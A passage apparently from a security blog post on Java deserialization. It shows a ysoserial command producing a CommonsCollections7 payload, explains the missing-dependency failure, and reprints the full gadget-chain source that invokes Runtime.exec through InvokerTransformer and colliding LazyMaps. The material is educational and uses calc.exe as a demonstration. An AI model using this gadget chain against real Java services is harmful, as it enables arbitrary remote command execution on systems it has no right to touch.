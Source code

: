 Taking the deserialization example provided above, the reader may try to craft a payload using ysoserial and CommonsCollections7:

```bash
$ ysoserial CommonsCollections7 "cmd /c calc.exe" > ./Serialize/de.ser
```

However, if used against the example, the payload won't work, showing a `java.lang.ClassNotFoundException: org.apache.commons.collections.map.LazyMap` exception. The reason being the "visibility constraint". The payload *CommonsCollection7* uses `CommonsCollections:3.1`, which is not part of the standard JAVA SDK, which means the POP gadgets to build the required chain cannot be found. In order to make it work, the reader should ensure to add this dependency to the application classpath. A working example, where the `org.apache.commons-collections:3.1` dependency has been added, can be found [here](https://github.com/klezVirus/klezVirus.github.io/tree/master/The_Big_Problem_of_Serialisation/java/Serialize). 

Payloads generated with ysoserial share a common structure, which use a Payload Runner using maps to setup the conditions, and a transformer to actually build and run OS commands. 

Following the implementation of CommonsCollections7:

```java
public class CommonsCollections7 extends PayloadRunner implements ObjectPayload<Hashtable> {

    public Hashtable getObject(final String command) throws Exception {

        // Reusing transformer chain and LazyMap gadgets from previous payloads
        final String[] execArgs = new String[]{command};

        final Transformer transformerChain = new ChainedTransformer(new Transformer[]{});

        final Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod",
                new Class[]{String.class, Class[].class},
                new Object[]{"getRuntime", new Class[0]}),
            new InvokerTransformer("invoke",
                new Class[]{Object.class, Object[].class},
                new Object[]{null, new Object[0]}),
            new InvokerTransformer("exec",
                new Class[]{String.class},
                execArgs),
            new ConstantTransformer(1)};

        Map innerMap1 = new HashMap();
        Map innerMap2 = new HashMap();

        // Creating two LazyMaps with colliding hashes, in order to force element comparison during readObject
        Map lazyMap1 = LazyMap.decorate(innerMap1, transformerChain);
        lazyMap1.put("yy", 1);

        Map lazyMap2 = LazyMap.decorate(innerMap2, transformerChain);
        lazyMap2.put("zZ", 1);

        // Use the colliding Maps as keys in Hashtable
        Hashtable hashtable = new Hashtable();
        hashtable.put(lazyMap1, 1);
        hashtable.put(lazyMap2, 2);

        Reflections.setFieldValue(transformerChain, "iTransformers", transformers);

        // Needed to ensure hash collision after previous manipulations
        lazyMap2.remove("yy");

        return hashtable;
```